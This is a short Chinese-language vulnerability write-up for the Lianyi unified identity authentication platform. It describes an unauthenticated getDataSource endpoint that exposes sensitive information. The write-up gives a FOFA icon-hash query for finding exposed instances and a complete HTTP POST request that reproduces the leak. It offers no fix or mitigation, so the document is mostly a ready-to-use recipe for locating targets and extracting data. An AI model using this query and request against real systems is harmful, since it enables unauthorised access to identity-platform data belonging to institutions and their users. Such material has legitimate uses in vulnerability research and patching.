

# 一、漏洞简介
联奕统一身份认证平台getDataSource 未授权访问,攻击者可通过此漏洞获取敏感信息。

# 二、影响版本
+ 联奕统一身份认证平台

# 三、资产测绘
+ fofa`icon_hash="772658742"`
+ 特征


# 四、漏洞复现
```bash
POST /api/bd-mdp/serviceManager/outInterface/getDataSource HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Linux; Android 11; motorola edge 20 fusion) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.61 Mobile Safari/537.36
Content-Length: 0
Accept-Charset: utf-8
Accept-Encoding: gzip, deflate
Connection: close
```



